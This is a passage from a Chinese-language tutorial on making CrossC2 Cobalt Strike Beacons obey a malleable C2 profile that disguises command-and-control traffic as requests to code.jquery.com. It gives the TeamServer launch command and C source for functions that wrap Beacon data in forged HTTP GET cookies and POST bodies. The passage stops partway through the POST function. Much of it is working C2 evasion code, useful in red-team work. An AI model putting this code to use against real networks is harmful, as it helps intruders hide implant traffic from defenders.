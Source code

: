 同样的`client {...}`中描述了 Beacon 发送给 TeamServer 的数据是如何编码的，那么在发送给 TeamServer 之前就需要按 Profile 中的配置进行编码，那么意味着我们需要在`cc2_rebind_http_post_send`中实现`base64_encode(mask_encode(base64_decode(x)))`的操作。

![](https://mmbiz.qpic.cn/mmbiz_png/TegOSv0yja6ecyyPNE0XGg8iaOA6gWRAUXwibZkjk4lqw23BbxZDTugtwwvLTLicZxjkAAbYIicmLEsfKF57DV22tw/640?wx_fmt=png)

同样的`http-get { ... }`配置处的实现思路也是一样的  

TeamServer 会根据 Profile 中配置的这个顺序从下往上进行解密拿到 AES 加密的元数据, 这个过程 TeamServer 在内部已经实现了。而 CrossC2 生成的 Beacon 是不会根据 Profile 中的配置进行生成的，所以需要手动编写编码和解码的部分。

带上 C2-Profile 重启 TeamServer
---------------------------

```
./teamserver 192.168.225.24 123456 jquery-c2.4.0.profile


```

实现方式 1
------

将 C2-Profile 中的 mask 编码去掉，下图只截了`http-post`，还需要去掉`http-get`部分的 mask。

![](https://mmbiz.qpic.cn/mmbiz_png/TegOSv0yja6ecyyPNE0XGg8iaOA6gWRAUkoEX3jQMXXic9xicpbNQuic5RlrZfNqyf3tAeZzL8P1h7IyDQ263mfYHg/640?wx_fmt=png)

之后来编写 c2profile.c 文件  

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void cc2_rebind_http_get_send(char *reqData, char **outputData, long long *outputData_len) {
    char *requestBody = "GET /%s HTTP/1.1\r\n"
                        "Host: code.jquery.comr\n"
                        "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
                        "Accept-Encoding: gzip, deflate\r\n"
                        "User-Agent: Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko\r\n"
                        "Cookie: __cfduid=%s\r\n"
                        "Referer: http://code.jquery.com/\r\n"
                        "Connection: close\r\n\r\n";
    char postPayload[20000];
    sprintf(postPayload, requestBody, "jquery-3.3.1.min.js", reqData);

    *outputData_len =  strlen(postPayload);
    *outputData = (char *)calloc(1,  *outputData_len);
    memcpy(*outputData, postPayload, *outputData_len);

}

void cc2_rebind_http_post_send(char *reqData, char *id, char **outputData, long long *outputData_len) {
    char *requestBody = "POST /%s?__cfduid=%s HTTP/1.1\r\n"
                        "Host: code.jquery.com\r\n"
                        "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
                        "Accept-Encoding: gzip, deflate\r\n"
                        "User-Agent: Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko\r\n"
                        "Referer: http://code.jquery.com/\r\n"
                        "Connection: close\r\n"
                        "Content-Length: %d\r\n\r\n%s";
    char *postPayload = (char *)calloc(1, strlen(requestBody)+strlen(reqData)+200);
```